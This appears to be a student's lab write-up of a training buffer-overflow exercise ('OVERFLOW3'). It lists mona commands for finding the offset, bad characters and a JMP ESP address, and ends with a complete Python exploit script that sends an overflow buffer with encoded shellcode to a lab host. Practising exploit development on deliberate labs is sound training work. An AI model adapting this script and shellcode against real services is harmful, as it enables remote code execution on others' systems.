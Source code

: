 ## fuzzing

![[Pasted image 20210530125639.png]]

## offset

EIP: 35714234
![[Pasted image 20210530125845.png]]

![[Pasted image 20210530125933.png]]

offset 1274

![[Pasted image 20210530130122.png]]

## bad chars

ESP: 017DFA30
`!mona bytearray -b "\x00"`

`!mona compare -f C:\mona\oscp\bytearray.bin -a 017DFA30`

![[Pasted image 20210530130354.png]]

bad chars: `\x00\x11\x40\x5f\xb8\xee`

## jmp point

`!mona jmp -r esp -cpb "\x00\x11\x40\x5f\xb8\xee"`

![[Pasted image 20210530130659.png]]

`62501203`

little endian

`\x03\x12\x50\x62`


## exploit 

![[Pasted image 20210530130947.png]]

```python
import socket

ip = "10.10.215.21"
port = 1337

prefix = "OVERFLOW3 "
offset = 1274
overflow = "A" * offset
retn = "\x03\x12\x50\x62"
padding = "\x90" * 16
payload = (
"\xfc\xbb\x7c\x7a\xfe\x7f\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x80\x92\x7c\x7f\x78"
"\x63\xe1\x09\x9d\x52\x21\x6d\xd6\xc5\x91\xe5\xba\xe9\x5a\xab"
"\x2e\x79\x2e\x64\x41\xca\x85\x52\x6c\xcb\xb6\xa7\xef\x4f\xc5"
"\xfb\xcf\x6e\x06\x0e\x0e\xb6\x7b\xe3\x42\x6f\xf7\x56\x72\x04"
"\x4d\x6b\xf9\x56\x43\xeb\x1e\x2e\x62\xda\xb1\x24\x3d\xfc\x30"
"\xe8\x35\xb5\x2a\xed\x70\x0f\xc1\xc5\x0f\x8e\x03\x14\xef\x3d"
"\x6a\x98\x02\x3f\xab\x1f\xfd\x4a\xc5\x63\x80\x4c\x12\x19\x5e"
"\xd8\x80\xb9\x15\x7a\x6c\x3b\xf9\x1d\xe7\x37\xb6\x6a\xaf\x5b"
"\x49\xbe\xc4\x60\xc2\x41\x0a\xe1\x90\x65\x8e\xa9\x43\x07\x97"
"\x17\x25\x38\xc7\xf7\x9a\x9c\x8c\x1a\xce\xac\xcf\x72\x23\x9d"
"\xef\x82\x2b\x96\x9c\xb0\xf4\x0c\x0a\xf9\x7d\x8b\xcd\xfe\x57"
"\x6b\x41\x01\x58\x8c\x48\xc6\x0c\xdc\xe2\xef\x2c\xb7\xf2\x10"
"\xf9\x18\xa2\xbe\x52\xd9\x12\x7f\x03\xb1\x78\x70\x7c\xa1\x83"
"\x5a\x15\x48\x7e\x0d\x10\x9c\x84\x1d\x4c\x9c\x84\xbe\xa4\x29"
"\x62\xaa\xa6\x7f\x3d\x43\x5e\xda\xb5\xf2\x9f\xf0\xb0\x35\x2b"
"\xf7\x45\xfb\xdc\x72\x55\x6c\x2d\xc9\x07\x3b\x32\xe7\x2f\xa7"
"\xa1\x6c\xaf\xae\xd9\x3a\xf8\xe7\x2c\x33\x6c\x1a\x16\xed\x92"
"\xe7\xce\xd6\x16\x3c\x33\xd8\x97\xb1\x0f\xfe\x87\x0f\x8f\xba"
"\xf3\xdf\xc6\x14\xad\x99\xb0\xd6\x07\x70\x6e\xb1\xcf\x05\x5c"
"\x02\x89\x09\x89\xf4\x75\xbb\x64\x41\x8a\x74\xe1\x45\xf3\x68"
"\x91\xaa\x2e\x29\xb1\x48\xfa\x44\x5a\xd5\x6f\xe5\x07\xe6\x5a"
"\x2a\x3e\x65\x6e\xd3\xc5\x75\x1b\xd6\x82\x31\xf0\xaa\x9b\xd7"
"\xf6\x19\x9b\xfd\xf6\x9d\x63\xfe"
)

postfix = ""

buffer = prefix + overflow + retn + padding + payload  + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```